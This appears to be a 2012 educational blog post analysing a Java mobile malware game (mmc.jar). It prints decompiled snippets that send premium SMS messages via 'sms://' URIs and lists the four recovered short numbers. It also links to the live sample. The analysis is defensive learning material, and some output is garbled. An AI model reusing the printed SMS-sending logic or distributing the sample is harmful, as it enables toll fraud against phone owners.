 ```yaml
---
title: "Mobile Malware Analysis"
date: 2012-01-17 00:00
tags: [cell phone, malware, mobile, mobile malware analysis, network crime, phone, phone games, phone malware, security, sms, binary]
---
```




PURPOSE
=======



The goal of this post is to identify and analyze mobile malware file:
[mmc.jar](https://sim.cert.ee/hw/mmc.jar). Thereby please follow the
following steps for completing the task:



-   Unpack the file (hint – using zip on .jar)
-   Examine .class files using tool available
    [here](https://java.decompiler.free.fr/?q=jdgui) (local copies for
    [Mac](https://sim.cert.ee/hw/jd-gui-0.3.3.osx.i686.dmg) and
    [Linux](https://sim.cert.ee/hw/jd-gui-0.3.3.linux.i686.tar.gz) and
    [Win](https://sim.cert.ee/hw/jd-gui-0.3.3.windows.zip)
-   Find code sending SMSes using ‘sms://’ URI
-   Calculate short number used in SM.send
-   Finally for compiling the code use the developing tool [Eclipse
    IDE](https://www.eclipse.org/).



Firstly, we are going to analysis the Java source code after
decompilation. The accent is to find the code that is sending an SMSes
using the ‘sms://’ URL. After identifying the linking associated classes
we have to compile the code to move toward to final results of URLs. For
this purpose we are using the developing tool [Eclipse
IDE](https://www.eclipse.org/downloads/).



Therefore, the results and the sent SMSes URLs are going to be presented
into conclusion section. Which will complete the task and will yield the
basic analysis of mobile malware file.



ANALYSIS
========



After running the decompiler tool we are examining and analyzing the
Java source code. Whereby on the source code on the class M.class line
343 we have found the following source code:



```
if ((i &gt;= 35)  (SM.isSending != true)  (i % 6 == 0) (f & count_query)) {  if (SM.GS()) f += 1;   if (f == 1) {            RS.L(rs);            RS.L("Slide");            rs = RS.j("Slide");            game = RS.L(rs, Integer.toString((int)(System.currentTimeMillis() / 1000L)));            RS.L(rs);   }if (f &lt; count_query) {  game = SM.send("sms://" + ms[1][b], ms[2][b]); // sms://  if (b == count_query) b = 1; else b += 1;}

```



The above code is associated with the class SM.class. With the following
source code:



```
public static int send(String s, String s1){   if (isSending) return 0;      new SM(s, s1);   return -1;}public SM(String s, String s1) { success = false; isSending = true; this.destination = s; this.message = s1; try {      Thread thread = new Thread(this);      thread.start(); } catch (Exception exception) { isSending = false;}

```



The above code is checking if the message and the destination is
correct  

and if the message is sent. Coloration is more like the first public
static method named *send* with the two string values of *s* and *s1*.



All the above extraction was finished by JD-Gui version 0.3.3 and
JD-Core version 0.6.0 and using the menu bar for search, with the
criteria that will meet our needs.



The bellow are executable results presented, done by eclipse after
compiling the code:



```
/0SIF|6XI8ULE|YNLD5QDA6WM|YJ90RL/+WPJDAFY2 DC3QJ/+3RKA/5YPA0MD-5QFDwhile 7375/88600168904|7202/65510006691|1899/FTEME 1283|8385/88600168904|1 162 333 494 667375 88600168904 //sms://73757202 65510006691 //sms://72021899 fteme 1283 //sms://18998385 88600168904 //sms://8385decoded367375 88600168904427202 65510006691481899 fteme 128354

```



From the above presented results after compiling the code we have
identify the number of SMSes URLs and in addition the exact URLs.



CONCLUSION
==========



We live in a world where nowadays for everyday work, communication, etc.
the most essentially tool is our mobile phones, smart phones, etc. We
used them for communication, sending SMS, playing games, checking
e-mails, social networking, bank transaction, etc. That is why today
there are hundreds and rising everyday mobile malware files. We need to
make sure what we are installing in our devices, what kind of games,
applications, etc. Therefore, this post will help for a people who are
interested to learn basic of how to analysis and identify malware files
for mobile phones. However, this is only a basic, and a good guide to
give you an idea of what kind of tools, applications you should have.
This task is done only for a Java source code mobile malware game.



Furthermore, from the above section we have identify the number of SMSes
that are sent and to what numbers. The total number of SMSes is 4 and
sent to the following URLs:



```
sms://7375sms://7202sms://1899sms://8385

```



Finally, mobile malware is rising and it is about to explode, therefore
users need education[1]. By delivering basic and advance mobile malware
security awareness program we will have less malware attacks and better
security policy into everyday mobile, smart phones usage.



Bibliography
============



[1] Chris Martin, Mobile malware is about to explode, users need
education, 20 Jan. 2012, [link](https://www.theinquirer.net/inquirer/opinion/2140338/mobile-malware-explode-users-education)



